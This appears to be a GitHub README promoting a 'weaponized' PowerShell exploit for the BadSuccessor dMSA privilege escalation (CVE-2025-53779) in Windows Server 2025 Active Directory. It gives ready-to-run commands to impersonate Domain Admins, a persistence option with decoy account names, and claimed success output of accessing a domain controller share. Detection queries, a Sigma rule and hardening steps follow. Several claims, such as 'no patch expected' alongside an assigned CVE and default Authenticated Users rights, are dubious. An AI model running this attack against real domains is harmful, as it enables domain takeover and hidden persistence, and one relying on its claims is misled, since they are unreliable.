

# 🚨 Advanced BadSuccessor (CVE-2025-53779) – Weaponized PoC & Complete Defense Toolkit

[](LICENSE)
[](https://github.com/PowerShell/PowerShell)
[](https://github.com/GhostPack/Rubeus)

> **A fully automated, production‑ready exploitation and detection suite for the BadSuccessor vulnerability in Windows Server 2025 Active Directory.**  
> *For authorized security assessments, red team exercises, and defensive research only.*

---

## 📋 Table of Contents

1. [Overview & Impact](#overview--impact)
2. [Technical Deep Dive](#technical-deep-dive)
3. [Attack Prerequisites](#attack-prerequisites)
4. [Installation & Setup](#installation--setup)
5. [Usage – Offensive (Red Team)](#usage--offensive-red-team)
6. [Usage – Defensive (Blue Team)](#usage--defensive-blue-team)
7. [Detection & Hunting](#detection--hunting)
8. [Mitigation & Hardening](#mitigation--hardening)
9. [Frequently Asked Questions](#frequently-asked-questions)
10. [References & Credits](#references--credits)

---

## 🔥 Overview & Impact

**BadSuccessor** (CVE-2025-53779) is a logical flaw in the **Kerberos Key Distribution Center (KDC)** of Windows Server 2025. It allows any domain user with **`CreateChild` permission on any Organizational Unit (OU)** to impersonate **any other user** in the Active Directory domain – including **Domain Admins**, service accounts, and even protected users.

### 🎯 Real-world Impact

| Impact | Description |
|---|---|
| Privilege Escalation | From a low-privileged user to Domain Admin or any sensitive account. |
| Lateral Movement | Impersonate service accounts to access servers, databases, or file shares. |
| Persistence | Create a dMSA with a backdoor supersedence link to a high-value user. |
| Bypass of security solutions | No LSASS memory access required – purely Kerberos abuse. |
| No patch expected from Microsoft | Microsoft classifies this as a **feature misconfiguration**, not a code bug. |

> **CVSS v3.1 Score:** Not assigned by Microsoft, but third-party estimates place it at **8.1 (High)** – AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:N

---

## 🧠 Technical Deep Dive

### The dMSA Supersedence Mechanism

Windows Server 2025 introduced **Delegated Managed Service Accounts (dMSA)** – an evolution of gMSA that allows delegation and supersedence:

- A dMSA can be marked as a **superseding** account using the attribute `msDS-DelegatedMSAState = 2`.
- The `msDS-ManagedAccountPrecededByLink` attribute points to the **distinguished name (DN)** of the account it replaces.
- When a dMSA with these attributes receives a Kerberos service ticket request, the KDC **automatically embeds the PAC (Privilege Attribute Certificate) of the superseded account** into the ticket.

### The Vulnerability

The KDC performs **no access control check** on the superseded account. It blindly trusts the DN stored in `msDS-ManagedAccountPrecededByLink`. An attacker with `WriteProperty` (implicitly granted by `CreateChild` on the OU) can set this attribute to **any** account in the domain.

### Attack Chain (Visualized)



### Why Microsoft Won't Patch It

Microsoft's official stance: *"This is by design. Administrators should not grant CreateChild permissions to untrusted users. The KDC trusts the directory because the directory is assumed to be properly secured."*

Thus, the fix is administrative: review and tighten OU ACLs.

---

## 📋 Attack Prerequisites

| Requirement | Details |
|---|---|
| Windows Server 2025 Domain Controller | At least one DC running Windows Server 2025 (any build). Older DCs do not support dMSA. |
| KDS Root Key | Generated automatically when the first dMSA is created. If missing, the attack fails. |
| CreateChild permission on an OU | By default, Authenticated Users have this on the CN=Computers OU. Also often delegated to helpdesk or IT staff. |
| Low-privileged domain account | Any account that can authenticate to the domain. |
| PowerShell 5.1+ with ActiveDirectory module | Install RSAT or AD DS tools. |
| Rubeus.exe (v2.5+) | Download from GhostPack. The `/dmsa` flag is required. |

---

## 🧪 Lab Environment Setup

```powershell
# Deploy a test domain with Windows Server 2025 DC
# Ensure you have at least one user with CreateChild on an OU
# For testing, grant your low-priv user CreateChild on the default Computers OU:
dsacls "CN=Computers,DC=lab,DC=local" /G "LAB\lowpriv:CCDC;computer"
```

---

## 🔧 Installation & Setup

```bash
git clone https://github.com/yourusername/Advanced-BadSuccessor.git
cd Advanced-BadSuccessor
```

Place `Rubeus.exe` in the repository root or in `src/`.

Import the PowerShell module:

```powershell
Import-Module .\src\Invoke-BadSuccessor.ps1
```

Verify prerequisites (script will auto-check):

```powershell
Invoke-BadSuccessor -CheckOnly
```

---

## ⚔️ Usage – Offensive (Red Team)

### Basic Attack

Impersonate `CONTOSO\Administrator` using the default Computers OU:

```powershell
Invoke-BadSuccessor -TargetUser "CONTOSO\Administrator" -OU "CN=Computers,DC=contoso,DC=com"
```

### Advanced Parameters

| Parameter | Description | Example |
|---|---|---|
| `-TargetUser` | User to impersonate (any format: DOMAIN\user, user@domain, or DN). | `-TargetUser "CONTOSO\svc_sql"` |
| `-TargetOU` | DN of OU where attacker has CreateChild. | `-TargetOU "OU=Workstations,DC=contoso,DC=com"` |
| `-ComputerName` | Temporary computer account name (default random). | `-ComputerName "Temp123$"` |
| `-dMSAName` | Name for the Delegated MSA (default dMSA-BadSuccessor). | `-dMSAName "EvilMSA"` |
| `-RubeusPath` | Path to Rubeus.exe. | `-RubeusPath "C:\Tools\Rubeus.exe"` |
| `-ImpersonateService` | Service to test after ticket injection (default CIFS/DC). | `-ImpersonateService "HTTP/web.contoso.com"` |
| `-Persist` | Do not delete the dMSA and computer account after attack. | `-Persist` |
| `-Verbose` | Detailed output. | `-Verbose` |

### Example: Full Attack with Persistence

```powershell
Invoke-BadSuccessor -TargetUser "CONTOSO\Domain Admins" `
    -TargetOU "OU=Servers,DC=contoso,DC=com" `
    -ComputerName "HiddenBackup$" `
    -dMSAName "LegacySync$" `
    -ImpersonateService "LDAP/DC.contoso.com" `
    -Persist -Verbose
```

Expected output (success):

```text
[+] Ticket injected. Current Kerberos tickets:
   #0>     Client: Administrator @ CONTOSO.COM
           Server: CIFS/dc.contoso.com @ CONTOSO.COM
[SUCCESS] Successfully accessed \\dc.contoso.com\C$ as CONTOSO\Administrator
```

---

## 🛡️ Usage – Defensive (Blue Team)

### Audit Your Domain for Vulnerable OUs

Run the following PowerShell to find OUs where Authenticated Users or other non-admins have `CreateChild`:

```powershell
# Using ActiveDirectory module
$ous = Get-ADOrganizationalUnit -Filter * -Properties ntSecurityDescriptor
foreach ($ou in $ous) {
    $acl = $ou.ntSecurityDescriptor.Access
    foreach ($ace in $acl) {
        if ($ace.ActiveDirectoryRights -band [System.DirectoryServices.ActiveDirectoryRights]::CreateChild) {
            $principal = [System.Security.Principal.SecurityIdentifier]::new($ace.SecurityIdentifier).Translate([System.Security.Principal.NTAccount])
            if ($principal.Value -notmatch "Domain Admins|Enterprise Admins|Administrator") {
                Write-Warning "Vulnerable OU: $($ou.DistinguishedName) – $($principal.Value) has CreateChild"
            }
        }
    }
}
```

### Test Detection Rules

Use the script in a sandbox and verify that your SIEM triggers alerts based on the detection queries.

---

## 🔍 Detection & Hunting

### Key Event IDs to Monitor

| Event ID | Description | What to look for |
|---|---|---|
| 5136 | Directory Service Change | Attribute `msDS-ManagedAccountPrecededByLink` or `msDS-DelegatedMSAState` modified. |
| 4768 | Kerberos TGT Request | Computer account (ends with `$`) requesting TGT, followed by a TGS within minutes. |
| 4769 | Kerberos TGS Request | TargetUserName ends with `$`, TicketOptions contains `0x40810000` (S4U2Self). |
| 4720 | User Account Created | Object class `msDS-GroupManagedServiceAccount` created by non-admin. |
| 4662 | Operation performed on an AD object | If CreateChild is audited, shows object creation in an OU. |

### KQL Hunting Queries (Microsoft Sentinel)

See the full set in `detection/badsuccessor_hunting.kql`. Example for supersedence modification:

```kql
SecurityEvent
| where EventID == 5136
| extend Attribute = tostring(Property["Attribute LDAP Display Name"])
| where Attribute in ("msDS-ManagedAccountPrecededByLink", "msDS-DelegatedMSAState")
| extend CallerSid = tostring(Property["Caller User SID"])
| join kind=leftanti (
    IdentityInfo | where GroupSid in ("S-1-5-21-*-512", "S-1-5-21-*-519")
) on $left.CallerSid == $right.AccountSid
| project TimeGenerated, CallerSid, ObjectDN = tostring(Property["Object DN"]), Attribute, NewValue = tostring(Property["Attribute Value"])
```

### Sigma Rule Example

```yaml
title: BadSuccessor dMSA Supersedence Modification
id: 9a2b3c4d-5e6f-7a8b-9c0d-1e2f3a4b5c6d
status: experimental
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 5136
        AttributeLDAPDisplayName|contains: 'msDS-ManagedAccountPrecededByLink'
    filter:
        CallerUserSid|startswith:
            - 'S-1-5-21-*-512'   # Domain Admins
            - 'S-1-5-21-*-519'   # Enterprise Admins
    condition: selection and not filter
level: high
```

---

## 🛡️ Mitigation & Hardening

### 1. Audit OU Permissions Immediately

Run the Akamai script or the PowerShell snippet above to identify OUs where non-admins have `CreateChild`.

### 2. Remove CreateChild from Untrusted Principals

```powershell
# Example: Remove CreateChild from Authenticated Users on Computers OU
$computersOU = "CN=Computers,DC=contoso,DC=com"
dsacls $computersOU /R "Authenticated Users"
```

> **Important:** Do not break legitimate workflows (e.g., helpdesk needs to join computers). Instead, delegate only the specific right *Create Computer objects* to specific groups, not `CreateChild` on all objects.

### 3. Enable Advanced Auditing

```powershell
auditpol /set /subcategory:"Directory Service Changes" /success:enable /failure:enable
auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable
```

### 4. Restrict dMSA Creation

Use a Group Policy or AD Administrative Template to limit who can create dMSAs:

- Only allow Domain Admins and dedicated service account management groups.
- Monitor for new dMSA objects (Event ID 4720 + objectClass check).

### 5. Harden the KDS Root Key

Ensure the KDS root key is protected and its creation is audited:

```powershell
Get-KdsRootKey | fl
# If key exists and was created by non-admin, investigate.
```

### 6. Deploy a SIEM Alert

Create a high-severity alert for any modification of `msDS-ManagedAccountPrecededByLink` by a user not in Domain Admins or Enterprise Admins.

---

## ❓ Frequently Asked Questions

**Q: Does this work against Windows Server 2022 or older DCs?**  
A: No. The dMSA feature exists only in Windows Server 2025. Mixed environments where a 2025 DC exists are vulnerable.

**Q: Can I impersonate a protected user (e.g., in Protected Users group)?**  
A: Yes, if the KDC can retrieve their PAC. However, if the target has `PROTECTED_USERS` flag and requires AES encryption, the attack still works as long as the dMSA supports AES.

**Q: Will antivirus or EDR detect this?**  
A: The attack uses only built-in AD tools and Rubeus. Many EDRs do not flag Rubeus by default. However, the specific `/dmsa` flag may be signatured. Defenders should rely on audit logs, not file hashes.

**Q: Is there a public exploit available other than this one?**  
A: Akamai released a basic PoC. This repository provides the first fully automated, weaponized version with integrated Rubeus and pre-flight checks.

**Q: Microsoft says "won't fix". Should I panic?**  
A: No. Properly configured AD environments are not vulnerable. Focus on removing unnecessary `CreateChild` permissions. This is a configuration flaw, not a remote code execution.

---

## 📚 References & Credits

| Source | Description |
|---|---|
| Akamai Original Research | Full write-up by Yuval Gordon (March 2025). |
| SpecterOps Analysis | Tradecraft, detection evasion, and Rubeus integration. |
| Microsoft Docs: dMSA | Official documentation on Delegated Managed Service Accounts. |
| GhostPack Rubeus | The Kerberos abuse tool used in this exploit. |

---

## 🧑‍💻 Contributors

- **Original discovery:** Yuval Gordon (Akamai)
- **Weaponization & advanced PoC:** [Your Name]
- **Detection guidance:** SpecterOps

---

## ⚖️ License

This project is licensed under the MIT License – see the [LICENSE](LICENSE) file for details.

---

## ⚠️ Disclaimer

This software is provided for educational and authorized security testing purposes only. The authors are not responsible for any misuse or damage caused by this tool. Unauthorized access to computer systems is illegal. Always obtain explicit written permission before testing.

---

*Happy (authorized) hacking & stay secure! 🛡️*